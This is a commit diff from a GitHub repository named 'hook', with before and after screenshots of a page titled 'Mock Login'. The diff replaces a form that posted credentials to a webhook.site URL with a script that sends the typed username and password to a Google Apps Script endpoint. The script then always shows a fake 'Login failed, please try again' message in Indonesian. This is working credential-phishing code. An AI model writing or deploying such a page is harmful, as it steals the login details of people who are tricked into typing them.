

Before and after one commit to KhriStore/hook, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 253-560 px from the top of the page, without its empty margins (330-970 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,51 +3,42 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Mock Login</title>
+  <title>Mock Login Form</title>
   <style>
-    body {
-      font-family: Arial, sans-serif;
-      background-color: #f3f3f3;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
-    }
-    .login-box {
-      background: white;
-      padding: 30px;
-      box-shadow: 0 0 10px rgba(0,0,0,0.1);
-      border-radius: 8px;
-      max-width: 300px;
-      width: 100%;
-    }
-    input {
-      display: block;
-      width: 100%;
-      padding: 10px;
-      margin: 15px 0;
-      border-radius: 4px;
-      border: 1px solid #ccc;
-    }
-    button {
-      padding: 10px;
-      background: #0066ff;
-      color: white;
-      border: none;
-      border-radius: 4px;
-      width: 100%;
-      cursor: pointer;
-    }
+    body { font-family: Arial; background-color: #f3f3f3; display: flex; justify-content: center; align-items: center; height: 100vh; }
+    .login-box { background: white; padding: 30px; box-shadow: 0 0 10px rgba(0,0,0,0.1); border-radius: 8px; max-width: 300px; width: 100%; }
+    input, button { width: 100%; padding: 10px; margin: 10px 0; border-radius: 4px; border: 1px solid #ccc; }
+    button { background: #0066ff; color: white; cursor: pointer; }
   </style>
 </head>
 <body>
   <div class="login-box">
     <h2>Login</h2>
-    <form action="https://webhook.site/603c4d20-de49-4763-a148-9f9508372528" method="POST">
-      <input type="text" name="username" placeholder="Username" required />
-      <input type="password" name="password" placeholder="Password" required />
+    <form id="loginForm">
+      <input type="text" id="username" placeholder="Username" required />
+      <input type="password" id="password" placeholder="Password" required />
       <button type="submit">Login</button>
     </form>
   </div>
+
+  <script>
+    document.getElementById('loginForm').addEventListener('submit', async (e) => {
+      e.preventDefault();
+      const username = document.getElementById('username').value;
+      const password = document.getElementById('password').value;
+
+      const endpoint = 'https://script.google.com/macros/s/AKfycbyCqiONla4LVn6RQR1YYjkfGcYgqqNCJJt1kguToE3cPR9e7C7hCST4vqIFPPvKatwK5w/exec'; // Ganti dengan Google Apps Script Web App kamu
+
+      await fetch(endpoint, {
+        method: "POST",
+        headers: {
+          "Content-Type": "application/json"
+        },
+        body: JSON.stringify({ username, password })
+      });
+
+      alert("Login gagal. Silakan coba lagi.");
+    });
+  </script>
 </body>
 </html>
```
